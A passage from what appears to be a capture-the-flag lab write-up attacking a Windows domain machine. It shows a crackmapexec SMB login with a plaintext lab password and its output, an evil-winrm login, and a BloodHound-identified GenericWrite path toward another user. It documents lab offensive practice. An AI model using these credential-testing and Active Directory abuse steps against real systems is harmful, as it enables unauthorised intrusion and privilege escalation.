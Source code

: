 ```
$ crackmapexec smb megacorp.local -u sbauer -p 'D3veL0pM3nT!'
SMB         megacorp.local  445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         megacorp.local  445    MULTIMASTER      [+] MEGACORP.LOCAL\sbauer:D3veL0pM3nT!
```

We can then `evil-winrm` in as this user:

<figure><img src="../../../.gitbook/assets/image (130) (2).png" alt=""><figcaption></figcaption></figure>

### GenericWrite --> Jorden Shell

From the Bloodhond we did earlier, we can see that this user has `GenericWrite` privileges over `jorden`:

<figure><img src="../../../.gitbook/assets/image (214).png" alt=""><figcaption></figcaption></figure>
